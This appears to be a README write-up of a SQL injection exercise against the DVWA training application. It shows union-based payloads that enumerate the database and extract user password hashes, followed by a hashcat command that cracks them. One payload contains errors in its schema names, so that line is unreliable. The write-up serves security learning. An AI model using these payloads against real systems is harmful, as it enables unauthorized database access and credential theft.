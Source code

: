 # SQL Injection - DVWA Lab

## Overview
This exercise demonstrates a classic **SQL Injection (SQLi)** vulnerability in the DVWA (Damn Vulnerable Web Application).  
The goal was to enumerate the database, extract sensitive information, and validate the impact of insecure SQL query handling.

---

## Attack Narrative

### 1. Basic Injection Test
Payload used:
```sql
id=1' OR '1'='1
```
what i saw:
![Basic Injection Test](/web-vulns-sqli/screenshots/image.png)


### 2. Database & User Enumeration
Payload used:
```sql
1' UNION SELECT database(), user()-- -
```
result:
![Database User Enumeration](/web-vulns-sqli/screenshots/database-user-enum.png)
- Database in use: dvwa
- Current DB user: dvwa@localhost

### 3. Table Enumeration
Payload used:
```sql
1' UNION SELECT table_name, NULL FROM information-schema.tables WHERE tables_schema=database()-- -
```
result:
![Table discovery](/web-vulns-sqli/screenshots/table-discovery.png)
- identified what tables are in the database (including users).

### 4. Column Enumeration
Payload used:
```sql
1' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name="users"-- -
```
result:
![column discovery](/web-vulns-sqli/screenshots/column-enum.png)

### 5. Extracting Credentials
Payload used:
```sql
1' UNION SELECT user, password FROM users-- -
```
result:
![password hash extraction](/web-vulns-sqli/screenshots/passwd-extraction.png)
- got to know about the exact usernames and their hashed passwords.

## Password Decoding
command used:
```bash
hashcat -m 0 hashes.txt --show
```
this gave me the exact password for each user:
![decoded passwords](/web-vulns-sqli/screenshots/decoded-passwd.png)
